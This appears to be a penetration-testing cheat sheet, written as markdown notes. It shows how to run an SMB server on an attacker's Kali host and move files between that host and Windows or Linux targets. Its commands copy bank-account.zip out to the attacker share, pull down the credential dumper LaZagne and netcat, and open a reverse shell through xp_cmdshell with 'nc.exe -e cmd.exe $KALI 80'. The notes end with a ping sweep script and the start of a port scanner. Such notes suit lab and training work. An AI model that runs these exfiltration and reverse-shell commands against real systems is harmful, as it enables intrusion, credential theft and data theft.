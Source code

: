```
smbserver.py share . -smb2support -user Gonk -password Ware
```

```
net use \\$KALI\share /user:Gonk Ware
```

WINDOWS:
---
USE RCP TO COPY **TO** SMBSERVER:
```
rcp -b bank-account.zip \\$KALI\share
```
USE RCP TO COPY **FROM** SMBSERVER:
```
rcp \\$KALI\share\lazagne.exe .
```
OR
CONNECT TO SHARE WITH NO AUTH:
```batch - windows
net use \\$KALI\share
```
COPY FROM WINDOWS TO KALI:
```batch - windows
copy winpeas.txt \\$KALI\share\
```
COPY FROM KALI TO WINDOWS:
```
copy \\$KALI\share\nc.exe %TEMP%\nc.exe
```
REVERSE SHELL:
```
xp_cmdshell %TEMP%\nc.exe -e cmd.exe $KALI 80
```
---
LINUX:
```bash - target
smbclient \\\\$KALI\\share -U "df" -p df
```
```bash - target
mput *.txt
```
```batch - windows
del 20191018035324_BloodHound.zip
```
```batch - windows
net use /d \\$KALI\share
```
#### Install on windows CMD
https://docs.python.org/3/using/windows.html
#### ping scanner
```
#!/usr/bin/python3
import sys, os
for i in range(int(sys.argv[2]), int(sys.argv[3])+1):
	ip = f"{sys.argv[1]}.{i}"
	response = os.system(f"ping -c 1 {ip} > /dev/null 2>&1")
	if response ==0:
		print(ip)
```
#### Port scanner
```python
import argparse, socket, errno, threading, queue
#Initialize the parser
parser = argparse.ArgumentParser(description='A port scanner capable of basic TCP connect scans.')
parser.add_argument('Target', help='an ip or hostname to scan.')
```